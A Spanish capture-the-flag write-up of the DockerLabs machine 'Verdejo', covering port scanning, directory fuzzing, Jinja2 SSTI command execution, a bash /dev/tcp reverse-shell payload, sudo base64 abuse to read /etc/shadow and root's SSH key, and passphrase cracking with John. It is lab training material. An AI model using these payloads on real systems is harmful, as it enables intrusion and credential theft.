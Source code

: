 # 🧪 Análisis de la máquina vulnerable: **Verdejo**

**Dificultad:** Fácil
**Plataforma:** DockerLabs
**Descripción:**

![Descarga de la máquina](Imágenes/2025-05-15_09-12.png)

---

## 📦 Despliegue de la máquina

Se descarga la máquina vulnerable desde la página oficial de DockerLabs y se descomprime con:

```bash
unzip verdejo.zip
```

Luego, se despliega el entorno con el script:

```bash
sudo bash auto_deploy.sh verdejo.tar
```

Esto inicia la máquina en un contenedor de Docker.

![Despliegue de la máquina](Imágenes/Capturas.png)

---

## 📡 Verificación de la conectividad

Se verifica la conexión con la máquina mediante un simple ping a la IP asignada (`172.17.0.3`):

```bash
ping -c1 172.17.0.3
```

Esto confirma que la máquina está accesible en la red local del contenedor.

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 Escaneo de puertos

Utilizamos `nmap` para realizar un escaneo completo de todos los puertos y ver cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Resultado:

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
8089/tcp open  unknown syn-ack ttl 64
```

![Puertos](Imágenes/Capturas_2.png)

---

## 🛠️ Detección de servicios

Con los puertos abiertos identificados, se realiza un escaneo más detallado para obtener información sobre los servicios y versiones:

```bash
nmap -sC -sV -p22,80,8089 172.17.0.3 -oN target.txt
```

Se usó un script personalizado `extractPorts` para agilizar el proceso de extracción de puertos desde la salida anterior.

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 Análisis de los servicios HTTP

Al acceder a `http://172.17.0.3/` se muestra la página por defecto de Apache2, lo que indica que el servidor está funcionando.

![Puerto:80](Imágenes/Capturas_4.png)

También se accede al puerto `8089` vía `http://172.17.0.3:8089/` y se observa una página personalizada que parece desarrollada en algún framework Python (por la estructura del HTML).

![Puerto:8089](Imágenes/Capturas_5.png)

---

## 🗂️ Fuzzing de directorios

Se realizó una enumeración de directorios y archivos con `gobuster` para ambos puertos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
gobuster dir -u http://172.17.0.3:8089 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Durante el fuzzing en el puerto `8089`, la aplicación se volvió inestable, lo que sugiere una posible vulnerabilidad a ataques DoS o DDoS.

![Fuzzing](Imágenes/Capturas_6.png)
![Fuzzing](Imágenes/Capturas_7.png)

---

## 🧠 Server-Side Template Injection (SSTI)

Al inspeccionar el parámetro `user` en la URL `http://172.17.0.3:8089/?user=`, se descubrió que la aplicación es vulnerable a SSTI, probablemente mediante Jinja2 (común en aplicaciones Flask).

Se probó la ejecución de comandos con este payload:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```

Este payload ejecuta el comando `cat /etc/passwd` desde el servidor y muestra su salida en la página web.

![SSTI](Imágenes/Capturas_8.png)

---

## ⚙️ Reverse Shell

Aprovechando la vulnerabilidad SSTI, se obtuvo una reverse shell. Primero, iniciamos un listener:

```bash
sudo nc -lvnp 443
```

Luego, se usó este payload SSTI modificado para obtener acceso remoto:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.10/443 0>&1"').read() }}
```

Esto inicia una shell interactiva con el servidor.

![Reverseshell](Imágenes/Capturas_9.png)
![Reverseshell](Imágenes/Capturas_10.png)

---

## 🔐 Escalada de privilegios

Se descubrió que el usuario tenía permiso para ejecutar el binario `base64` como root sin contraseña (`NOPASSWD`):

```bash
sudo -l
```

Usamos esto para leer archivos restringidos como `/etc/shadow` y la clave privada SSH de root:

```bash
sudo base64 /etc/shadow | base64 --decode
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

Esto permitió obtener las contraseñas encriptadas y la clave privada del usuario root.

![Escalada](Imágenes/Capturas_11.png)
![Escalada](Imágenes/Capturas_12.png)

---

## 🔑 Acceso por SSH

Guardamos la clave privada en un archivo llamado `id_rsa` y le dimos los permisos adecuados:

```bash
nano id_rsa
chmod 600 id_rsa
```

Al intentar conectarse con:

```bash
ssh -i id_rsa root@172.17.0.3
```

Se solicita la passphrase de la clave. Para obtenerla, convertimos la clave al formato crackeable por John the Ripper:

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Se obtuvo la contraseña `honda1`, con la cual se logró el acceso como **root** por SSH.

![id\_rsa](Imágenes/Capturas_13.png)
![id\_rsa](Imágenes/Capturas_14.png)

---














